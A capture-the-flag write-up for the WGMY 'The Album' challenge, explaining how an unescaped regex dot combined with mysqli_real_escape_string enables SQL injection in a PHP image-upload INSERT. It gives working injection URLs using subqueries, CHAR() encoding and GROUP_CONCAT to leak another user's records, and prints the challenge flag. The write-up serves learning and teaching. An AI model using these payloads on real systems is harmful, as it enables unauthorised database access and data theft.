

Challenge Description
```
WGMY Fortnight Challenge #1902

#1902 The Album

can you leak admin's secret album?.
http://fortnight1802.wargames.my:8001

And you may find this helpful:
https://drive.google.com/file/d/1ei2RloOrmsUmlzIFkzvgutctIMcwFocS/view?usp=sharing
```
# Analysing
Look at the source code, there are 4 main function:
- Register
- Login
- Add image
- Delete image

In Register and Login, the username parameter is pass to `mysqli_real_escape_string()` function and password parameter is pass to `hash()` function
```php
$username = mysqli_real_escape_string($con, $_POST['username']);
$password = hash('sha256', $_POST['password']);
```

So SQL Injection is not possible in Register and Login

In Delete image, the delete parameter is pass to `intval()` function (Convert to integer), so also not possible to perform SQL injection.
```php
$id = intval($_POST['delete']);
```

Now only left Add image, 
```php
$url = mysqli_real_escape_string($con, $_POST['url']);
$scheme = parse_url($url, PHP_URL_SCHEME);
$ext = pathinfo($url, PATHINFO_EXTENSION);
if (($scheme !== 'http' && $scheme !== 'https') ||
    ($ext !== 'png' && $ext !== 'jpg')) {
    echo 'Image format not supported<br>';
} else {
    $name = preg_replace('(.png|.jpg)', '', basename($url));
    $query = "INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '{$name}', '{$url}')";
...
...        
```

First it pass the url parameter to `mysqli_real_escape_string`, `parse_url` and `pathinfo`

`parse_url` is to extract the URL scheme like `http` and `https`

`pathinfo` is to extract the URL extension like `.php`, `.html` etc.

Both function seems not vulnerable, continue to next line:
```php
$name = preg_replace('(.png|.jpg)', '', basename($url));
```
It pass to `basename` and pass to `preg_replace` 

`basename` returns the path to a file or directory of the URL

`preg_replace` is to perform a regular expression for search and replace the content

So this expression `(.png|.jpg)` is regular expression

According to regex101.com:
```
1st Capturing Group (.png|.jpg)
1st Alternative .png
. matches any character (except for line terminators)
png matches the characters png literally (case sensitive)
2nd Alternative .jpg
. matches any character (except for line terminators)
jpg matches the characters jpg literally (case sensitive)
```

It replace not only .png and .jpg, **because `.` in regex means any character except new line** 

So means if we put `http://jjpg.jpg` as URL, the `name` variable will end up become empty because it replace with empty string.

# Proof of Concept
1. Put `http://'jpg.jpg` as the URL
2. `mysqli_real_escape_string` will add a backslash before single quote (`'` become `\'`)
- `http://'jpg.jpg` become `http://\'jpg.jpg`
3. `basename` will extract the file path : `\'jpg.jpg`
4. `preg_replace` will delete the extension 
- `'jpg.jpg` will be deleted so left `\`
5. `\` will be put inside the query as `$name`:
```php
"INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '{$name}', '{$url}')"
```
6. **`'{$name}'` become `'\'` (quote is not enclose because `\'` is treated as a string)**

Submit the URL `http://\'jpg.jpg` you will get `Failed to add image` response:


Meaning the **SQL query is failed** in other words, **the query is injectable**

# Exploit
In order to read contents in the database we need to enclose the single quote

Because `mysqli_real_escape_string` add a backslash before single quote, we are possible to do that:

`http://'jpg',(SELECT 1))#.jpg` $name become `\\',(SELECT 1))#`

When inside query:
```php
"INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '\\',(SELECT 1))#', '{$url}')"
```

Then we can read the url content by inspecting the web page:


First, find the admin's user_id:
```
http://'jpg',(SELECT id FROM user WHERE username = CHAR(97,100,109,105,110)))#.jpg
``` 
Result: `34`

Since quote is escaped so I using `CHAR(97,100,109,105,110)` for `'admin'`

But I encounted a problem when select from image:
```
http://'jpg',(SELECT url FROM image WHERE user_id = 34 LIMIT 1))#.jpg
```
It return `Failed to insert image`

After some research I found that inside INSERT statement, SELECT statement inside cannot have the same table name

According to the [docs](https://dev.mysql.com/doc/refman/8.0/en/insert-select.html):


In order to fix that just use SQL Alias that will change the table to different name

# Solution
The final query that can leak admin's album:
```
http://'jpg',(SELECT GROUP_CONCAT(i.url) FROM image AS i WHERE user_id = 34))#.jpg
```
`GROUP_CONCAT` is a function will select multiple rows into one line, and each row will separated with `,`

Result:
```diff
https://i.kym-cdn.com/photos/images/original/000/435/652/1f9.png,
https://i.kym-cdn.com/photos/images/newsfeed/000/471/542/069.jpg,
https://i.kym-cdn.com/photos/images/newsfeed/000/549/306/165.gif,
+ /secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png,
https://i.ky
```
Saw a few nonsense image, only one is the flag image:
```
/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png
```

Go to http://fortnight1802.wargames.my:8001/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png and there's a flag!


# Flag
> wgmy{7959a60d89e1d4fba8caa69f5214525e}